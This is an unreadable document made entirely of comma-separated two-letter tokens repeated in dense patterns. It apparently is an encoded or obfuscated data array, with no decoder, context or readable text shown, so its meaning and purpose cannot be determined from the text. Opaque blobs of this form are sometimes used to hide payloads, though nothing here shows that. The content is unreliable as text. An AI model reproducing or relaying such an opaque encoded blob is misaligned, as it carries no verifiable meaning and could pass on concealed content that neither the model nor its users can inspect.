,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,FT,Fi,it,ff,RV,xv,NW,it,ff,RV,xv,NW,Mb,ff,RV,xv,NW,NW,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,zN,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,FT,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,xv,NW,Mb,ff,RV,xv,NW,xv,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,Mb,ff,RV,xv,NW,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,zN,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,FT,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,xv,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,NW,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,NW,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,NW,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,QB,ff,RV,FT,Fi,it,ff,RV,xv,zN,kX,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,FT,Fi,it,ff,RV,xv,NW,it,ff,RV,xv,NW,Mb,ff,RV,xv,NW,NW,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,FT,ff,RV,FT,Fi,QB,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,xv,NW,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,xv,zN,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,FT,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,xv,zN,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,xv,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,NW,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,NW,NW,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,NW,ff,RV,xv,kX,Mb,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,NW,ff,RV,xv,kX,Mb,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Fi,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,xv,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,Mb,ff,RV,xv,NW,xv,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,NW,Mb,ff,RV,xv,NW,Fi,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,FT,Fi,yN,ff,RV,xv,NW,NW,ff,RV,xv,NW,FT,ff,RV,FT,Fi,yN,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,yN,ff,RV,FT,Fi,yN,ff,RV,xv,NW,FT,ff,RV,xv,NW,FT,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,NW,FT,ff,RV,xv,NW,it,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,FT,Fi,it,ff,RV,xv,NW,yN,ff,RV,xv,NW,FT,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,xv,kX,kX,ff,RV,xv,NW,FT,ff,RV,FT,Fi,it,ff,RV,xv,NW,Fi,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,kX,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,it,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,FT,Fi,Fi,ff,RV,xv,NW,FT,ff,RV,FT,Fi,QB,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,FT,Fi,QB,ff,RV,xv,kX,Mb,ff,RV,xv,zN,kX,ff,RV,xv,kX,kX,ff,RV,xv,NW,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV,FT,Fi,it,ff,RV,xv,NW,zN,ff,RV,FT,Fi,it,ff,RV,xv,NW,QB,ff,RV,xv,NW,FT,ff,RV,xv,NW,zN,ff,RV,xv,kX,Mb,ff,RV,xv,NW,QB,ff,RV,xv,kX,kX,ff,RV,xv,kX,Mb,ff,RV,xv,kX,Mb,ff,RV,xv,NW,it,ff,RV,xv,kX,Mb,ff,RV,xv,NW,xv,ff,RV,xv,kX,Mb,ff,RV,xv,NW,Mb,ff,RV